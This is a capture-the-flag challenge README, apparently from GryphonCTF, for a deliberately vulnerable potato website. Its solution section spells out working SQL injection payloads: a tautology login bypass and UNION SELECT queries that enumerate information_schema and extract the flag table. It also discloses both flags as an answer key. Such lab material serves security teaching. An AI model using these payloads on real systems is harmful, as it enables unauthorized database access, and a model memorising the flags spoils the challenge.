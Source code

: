 # PotatoGods

## Question Text

I built this really amazing website for my favourite food, POTATOES! I'm veryyyy sure it's secure. Prove me wrong :D

`http://web.chal.gryphonctf.com:18704`

*Creator - whoami*

### Hints (Optional)

Level 1 - Injections are fun!
Level 2 - https://www.youtube.com/watch?v=ll09F5mVwb8



## Setup Guide

Run `./build.sh`



## Solution

Both text fields are vulnerable to SQL injection

Level 1 - `a' or '1' = '1 `. Simple SQL Injection to get the database to return the queries

Level 2 :

- Another form of SQL Injection which requires knowledge of how to list all tables and columns. 3 commands are required to get the flag. 

- `1' union select TABLE_SCHEMA, TABLE_NAME from information_schema.tables #` To list all tables in the database. As the SQL statement would only retrieve 2 columns, only 2 columns can be specified in the statement
- `1' union select table_name, column_name from information_schema.columns where table_name = 'flaggyflagflagnotgonnaspotthis' #` Table name 'flaggyflagflagnotgonnaspotthis' can be found by running the previous statement
- `1' union select flagid, flag from flaggyflagflagnotgonnaspotthis #` To retrieve the flag



Flags: 

Level 1 - `GCTF{A1way5_5aN1t1Z3_1nPut5}`

Level 2 - `GCTF{SQ1_15_5uP3R_53cUR3}`
